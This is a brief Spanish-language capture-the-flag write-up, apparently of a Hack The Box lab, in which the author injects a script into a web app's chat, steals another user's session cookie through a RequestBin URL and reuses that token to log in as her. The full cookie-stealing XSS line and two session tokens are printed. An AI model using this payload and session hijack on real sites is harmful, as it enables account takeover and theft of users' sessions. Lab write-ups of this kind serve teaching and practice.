

### Paso a paso:

- Entro a los dos links q me dieron: 
    

- Pruebo registrarme con el mail test@email.htb:
    
    

- Nos registramos y nos dan a elegir personas:
    

- Elegimos a las chicas y después vamos a matches:
    

- Probamos un script en el chat:
    

- Utilizo Requestbin whoapi para generar un link que me muestre las maquinas que piden la petición a dicha web:
    

- Después pego el link con un script en el chat de la maquina atacada:
    <pre><code>&lt;script&gt;fetch(&quot;http://requestbin.whapi.cloud/1kxv70s1?cookie=&quot; + document.cookie);&lt;/script&gt;</code></pre>

- Y veo las peticiones:
    

- Mi sesion web token acaba en W-M asiq la otra es la de la web:
    

- En la pagina presiono ctrl + shift + C y voy a la parte de storage y veo mi sesión web token qur es:
    eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6ImpvYSJ9fQ.Z-7cdA.q-qU-lMHSmBzD4TQRvw4LU8IW-M
    

- Y lo remplazo por el de Renata que me dio en la petición que hizo a la web:
    eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6IlJlbmF0YSJ9fQ.Z-7buw.346_oMwGAJSQdJA_GQQoNyGfwZQ

    

- Y así entro a la web como Renata:
    

- Y ahi encuentro la llave:
    
    

